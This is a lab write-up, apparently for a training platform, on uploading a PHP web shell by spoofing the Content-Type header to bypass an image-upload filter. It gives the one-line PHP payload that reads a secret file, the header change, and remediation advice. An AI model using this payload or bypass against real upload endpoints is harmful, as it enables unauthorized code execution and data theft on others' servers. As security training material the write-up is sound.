



<!-- WVVoU01HTklUVFpNZVRsdVlWaFNiMlJYU1hWWk1qbDBUREkwZEZsWFduQmpWMFYyWkROS2NHUkhWakZqU0UwOQ== -->

## Lab: Web Shell Upload via Content-Type Restriction Bypass

### Objective

Upload a basic PHP web shell and use it to retrieve the contents of `/home/carlos/secret`.

### Vulnerability Analysis

The image upload functionality attempts to restrict uploaded files to permitted image types. However, it relies on the client-controlled `Content-Type` header to verify the uploaded file type. An attacker can bypass this restriction by modifying the header in the upload request.

### Exploitation Steps

#### 1. Login as Wiener

Login using the credentials:

- Username: `wiener`
- Password: `peter`

#### 2. Craft PHP File

Create `file.php` with the following content:

```php
<?php echo file_get_contents('//home/carlos/secret'); ?>
```

#### 3. Upload PHP File

Navigate to **My Account** and upload `file.php` using the avatar file upload button.

The website rejects the PHP file because its content type is `application/x-php` and only allows image types such as JPEG and PNG.

This indicates that the upload restriction may rely on the request's `Content-Type` header.



#### 4. Bypass Content-Type Restriction

Locate the upload `POST` request and send it to Burp Suite Repeater.

Modify the header from:

```http
Content-Type: application/x-php
```

to:

```http
Content-Type: image/jpeg
```



By changing the client-controlled `Content-Type` header to an allowed image type, the upload restriction is bypassed and the PHP file is accepted.

#### 5. Retrieve Carlos's Secret

Change the request method from `POST` to `GET` and send the request to execute the uploaded PHP file.



Inspect the response. The contents of Carlos's secret file are displayed in the response body. Submit the retrieved secret to solve the lab.

### Remediation

- Validate uploaded files using an allowlist of permitted file types.
- Verify file content and signatures rather than relying only on file extensions or client-provided MIME types.
- Store uploaded files outside the web root.
- Disable script execution in upload directories.
- Apply restrictive filesystem permissions to uploaded files.

### Key Takeaways

- Client-controlled `Content-Type` headers can be manipulated to bypass weak upload restrictions.
- File extension and MIME type checks alone are insufficient to secure upload functionality.
- Uploaded PHP files can lead to remote code execution if the server executes them.
- Uploaded files should be stored and served in a way that prevents server-side execution.

### CWE References

- **CWE-434:** Unrestricted Upload of File with Dangerous Type
- **CWE-436:** Interpretation Conflict (if applicable to the validation mechanism)

---

<div align="center">
  <sub> Created by <a href="https://github.com/n-afiqa/">@n-afiqa</a> · © 2026.</sub>
</div>
